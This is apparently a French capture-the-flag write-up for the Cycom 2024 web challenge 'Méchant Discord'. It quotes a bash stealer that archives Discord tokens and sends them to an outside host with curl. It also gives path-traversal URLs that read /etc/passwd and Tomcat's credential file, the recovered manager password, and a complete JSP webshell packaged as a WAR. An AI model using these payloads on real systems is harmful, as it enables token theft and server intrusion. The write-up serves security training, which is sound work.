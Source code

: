 ```yaml
---
title: "Méchant Discord"
date: 2024-04-14T09:03:20-08:00
draft: false
---
```


# Cycom 2024 - Mechant Discord - Web - 300 points

## Énoncé
Bien, il semble que t'as mis la main sur le "malware". Sers-toi en pour remonter jusqu'a l'attaquant et lui montrer qui c'est le patron.

*Le flag se trouve à la racine du filesystem. Vous aurez besoin d'une RCE pour le trouver.*

## Solution
Une fois le malware téléchargé, on l'ouvre, et on observe que c'est juste un script bash qui fait trois choses :
- Créer une archive du fichier qui contient les tokens Discord
- Encodage de l'archive sous la forme de `base64`
- Envoi de l'archive encodée dans une requête HTTP à un serveur externe
  
```bash
tar -cf /tmp/ax_ruDFqi '~/.config/discord/Local Storage/leveldb'
curl "http://mal.challengecyber.fr/89g2GgtKsrIdkuHK/new.jsp?b64=${base64 -w0 /tmp/ax_ruDFqi}"
```

L'URL contactée lors de l'envoi de l'archive vers l'attaquant est sur le même domaine que le script initial, mais avec un chemin comprenant une chaîne de texte aléatoire.

La page appellée est `new.jsp`, et semble uniquement faite pour l'injestion des fichiers envoyés. Lorsqu'on contacte la page avec un navigateur, on est accueilli par un fantastique message.

![](/images/2024/011/01.png)

Lorsqu'on tente d'accéder à la racine de l'application, on tombe sur une interface haute en couleurs pour la récupération des fichiers envoyés par les victimes.

![](/images/2024/011/02.png)

De plus, lorsqu'on remonte à la racine du site, on constate que la page d'accueil de `Tomcat` est présente, ainsi que l'accès au manager, qui demande un nom d'utilisateur et un mot de passe. Le manager est probalement notre vecteur de RCE.

![](/images/2024/011/03.png)

En revenant sur la page du stealer, on constate que chaque lien vers un fichier pointe vers un nouvel endpoint : `file.jsp`, qui est appelé avec un paramètre `file`, qui correspond au nom du fichier à télécharger. ``

![](/images/2024/011/04.png)

Ce paramètre `file` n'est pas correctement vérifié par le serveur et permet une lecture de fichiers arbitraire. En insérant les caractères `../`, il est possible de remonter dans l'arborescence du système de fichiers.

Il est donc possible de charger, par exemple, le fichier `/etc/passwd`.

```
https://mal.challengecyber.fr/89g2GgtKsrIdkuHK/file.jsp?file=../../../../../../../etc/passwd
```

![](/images/2024/011/05.png)

A partir de cet endpoint, on peut obtenir le fichier `tomcat-users.xml`, qui contient les identifiants de connexion au manager de tomcat.

Le fichier se situe à l'emplacement standard `/usr/local/tomcat/conf/tomcat-users.xml`.

```
https://mal.challengecyber.fr/89g2GgtKsrIdkuHK/file.jsp?file=../../../../../../../usr/local/tomcat/conf/tomcat-users.xml
```

![](/images/2024/011/06.png)

On obtient les identifiants `root:XCsZYM3cfNGm`, et on peut maintenant se connecter au manager de tomcat.

![](/images/2024/011/07.png)

Il ne reste plus qu'a utiliser le manager pour déployer un reverse shell ou un webshell sur la machine, et obtenir le flag !

Par exemple : 

```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

```bash
mkdir DujziKsi7uz
cp index.jsp DujziKsi7uz
cd DujziKsi7uz
jar -cvf ../DujziKsi7uz.war *
```

![](/images/2024/011/08.png)

Une fois le `.war` uploadé, on se rend à la racine du disque et on affiche le flag.

![](/images/2024/011/09.png)


![](/images/2024/011/10.png)

*Flag: CYCOM{t0m\*\*\*\*\*\*\*}*

## Auteur

Lyne